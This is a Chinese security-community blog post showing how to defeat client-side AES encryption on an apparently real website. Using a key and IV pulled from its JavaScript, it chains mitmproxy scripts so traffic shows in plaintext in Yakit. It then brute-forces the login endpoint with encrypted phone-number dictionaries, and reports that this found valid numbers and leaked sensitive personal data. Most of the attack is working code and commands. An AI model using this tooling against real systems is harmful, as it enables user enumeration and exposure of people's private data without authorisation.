# 实战自动化加解密&加密场景下的暴力破解-先知社区

> **来源**: https://xz.aliyun.com/news/16110  
> **文章ID**: 16110

---

# 场景

拿到一个站，请求和响应中的数据均经过加密，但是我们想在测试中看到明文数据并可以修改

前两天看到0xsdeo师傅的使用[双层mitmproxy代理实现自动化加解密](https://mp.weixin.qq.com/s/L5GD6PwivRG-1IfgpSCfEw) 的思路，今天来实现一下。

顺便回忆一下该场景下使用 Yakit 热加载进行数据暴力破解。

# 思路

请求：

设置下游代理捕获浏览器的请求解密-->Yakit -->上游代理代理再把数据加密发送到服务端。

响应：

设置上游代理捕获浏览器的请求解密-->Yakit -->下游代理代理再把数据加密发送到浏览器。

> 上游代理：离原始服务器更近的代理服务器。
>
> 下游代理：离客户端更近的代理服务器。

# 请求自动化加解密

通过一个真实的案例来分析一下

某系统



使用手机号进行操作，未注册用户需完善信息。注册过的用户**猜测**可以直接看到一些敏感信息


现在的思路就是收集手机号，进行爆破。



从数据包可以看出来，对登录的手机号进行了加密。我们到浏览器找一下使用的加密算法

```
encrypt
```

通过关键词搜索直接定位到其代码逻辑



分析得到

```
key：60427a4badf685bd
iv：0c67da205a1f6f57
padding: Pkcs7
```

我们可以编写编写一个加解密的代码

```
from Crypto.Cipher import AES  
import base64  

def aes_encrypt(plaintext, key, iv):  
    # 将明文转换为字节串  
    plaintext = plaintext.encode('utf-8')  
    # 创建AES加密对象，使用CBC模式  
    cipher = AES.new(key, AES.MODE_CBC, iv)  
    # 计算需要填充的字节数  
    padding_length = AES.block_size - len(plaintext) % AES.block_size  
    # 进行填充  
    padding = bytes([padding_length] * padding_length)  
    plaintext = plaintext + padding  
    # 进行加密  
    ciphertext = cipher.encrypt(plaintext)  
    # 将加密结果进行base64编码并返回  
    return base64.b64encode(ciphertext).decode('utf-8')  

def aes_encrypt2(plaintext):  
    key = b'60427a4badf685bd'  
    iv = b'0c67da205a1f6f57'  
    return aes_encrypt(plaintext, key, iv)  

def aes_decrypt(ciphertext, key, iv):  
    # 对密文进行base64解码  
    ciphertext = base64.b64decode(ciphertext)  
    # 创建AES解密对象  
    cipher = AES.new(key, AES.MODE_CBC, iv)  
    # 解密  
    plaintext = cipher.decrypt(ciphertext)  
    # 去除填充（假设使用PKCS7填充）  
    padding_length = plaintext[-1]  
    plaintext = plaintext[: -padding_length]  
    return plaintext.decode('utf-8')  


def aes_decrypt2(ciphertext):  
    # ciphertext = "FIUVPgUtB4rcKmBgWY7LeNui4nDwImR52FceKRlDzwU0KdTVkTPtpxyfZ1Zt3eCB"  
    key = "60427a4badf685bd".encode('utf - 8')  
    iv = "0c67da205a1f6f57".encode('utf - 8')  
    return aes_decrypt(ciphertext, key, iv)

```

## Mitmproxy代理

### 请求

#### 下游代理解密

使用下游代理把从浏览器发送过来的加密请求数据进行解密，发送给 Yakit

```
import json  
from mitmproxy.http import HTTPFlow  
from decrypt import *  

def request(flow: HTTPFlow):  
    # burp下游代理: 把从浏览器发送过来的加密请求数据进行解密，发送给burp  
    try:  
        if "/xxx/xxx/xxx" in flow.request.url:  
            data = json.loads(flow.request.content.decode())  
            if data:  
                encrypt_text = data['data']  
                print("请求加密数据:", encrypt_text)  
                # 解密  
                decrypt_text = aes_decrypt2(encrypt_text)  
                print("请求解密数据:", decrypt_text)  

                flow.request.content = decrypt_text.encode()  
    except Exception as e:  
        pass

```

启动

```
mitmdump -q -p 8888 -s .\aes_decrypt.py --mode upstream:http://127.0.0.1:8083/ --ssl-insecure
```

浏览器代理



此时到 Yakit 的数据包已经是明文了



现在需要解决的问题就是还需把数据在加密返回给服务端，这是就需要在设置一个上游代理来进行加密操作

#### 上游代理加密

使用上游代理把从 Yakit发送过来的加密请求数据进行加密，发送给服务端

```
import json  
from mitmproxy.http import HTTPFlow  
from decrypt import *  

def request(flow: HTTPFlow):  
    # burp上游代理: 把从burp发送过来的解密数据重新进行加密，发送给服务端  
    try:  
        if "/xxx/xxx/xxx" in flow.request.url:  
            data = json.loads(flow.request.content.decode())  
            if data:  
                decrypt_text = json.dumps(data)  
                print("请求加密数据:", decrypt_text)  
                # 加密  
                encrypt_text = aes_encrypt2(str(decrypt_text))  
                print("请求加密数据:", encrypt_text)  
                temp = {'data': encrypt_text}  
                flow.request.content = json.dumps(temp, ensure_ascii=False).encode()  
    except Exception as e:  
        pass

```

启动

```
mitmdump -q -p 8989 -s .\aes_encrypt.py
```




### 响应

#### 上游代理解密

使用上游代理把从服务端发送过来的加密请求数据进行解密，发送给 Yakit

```
def response(flow: HTTPFlow):  
    # burp上游代理: 把从服务端获取到的加密响应数据进行解密，发送给burp  
    try:  
        if "/iccm/h5/visitor/" in flow.request.url:  
            data = json.loads(flow.response.content.decode())  
            if data:  
                encrypt_text = data['data']  
                print("响应解密数据:", encrypt_text)  
                # 解密  
                decrypt_text = aes_decrypt2(encrypt_text)  
                decrypt_text = json.loads(decrypt_text)  

                # 合并数据  
                data["data"] = decrypt_text  
                # 转化为json  
                decrypt_text = json.dumps(data, ensure_ascii=False)  
                print("解密数据:", decrypt_text)  
                flow.response.content = decrypt_text.encode()  
    except Exception as e:  
        pass
```

#### 下游代理加密

使用下游代理把从 Yakit发送过来的加密请求数据进行解密，发送给浏览器

```
def response(flow: HTTPFlow):  
    # burp下游代理: 把从burp获取到的解密响应数据重新进行加密，发送给浏览器，使浏览器页面能够渲染数据  
    try:  
        if "/iccm/h5/visitor/" in flow.request.url:  
            data = json.loads(flow.response.content.decode())  
            if data:  
                decrypt_text = json.dumps(data)  
                print("响应加密数据:", decrypt_text)  
                decrypt_text = data['data']  
                decrypt_text = json.dumps(decrypt_text)  
                # 加密  
                encrypt_text = aes_encrypt2(decrypt_text)  

                # 合并数据  
                data["data"] = encrypt_text  
                encrypt_text = json.dumps(data, ensure_ascii=False)  

                print("响应加密数据:", encrypt_text)  
                flow.response.content = encrypt_text.encode()  
    except Exception as e:  
        pass
```

## 最终效果

经过 yakit 的数据已经变成明文，加密前后对比

### 解密前





### 解密后





# Yakit 热加载-爆破

如果只是单纯的爆破数据的话，个人感觉使用 Yakit 更为简单。

详细：<https://mp.weixin.qq.com/s/x-A-ZWqE8C-HN6k9Y2QBbw>

热加载模块中编写代码：

```
dncryptAesCbc = func(p) {    
  key = "60427a4badf685bd"  
  iv = "0c67da205a1f6f57"   
resultList = []  
  phoneDict = x"{{payload(phone)}}" // 我们可以使用x前缀字符串来通过fuzztag语法获取phone字典中的值      
for phone in phoneDict {  
    m = {"verifyCode":"","phone":phone}  
    jsonInput = json.dumps(m)  
    result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~    
    base64Result = codec.EncodeBase64(result)  
    r={"data":base64Result}    
    resultList.Append(r)  
  }      
  return resultList   
}

```

调试



效果



# 总结

最后也是成功爆破除出了一些可利用手机号，并和刚开始的猜想一样，泄露了一些敏感数据


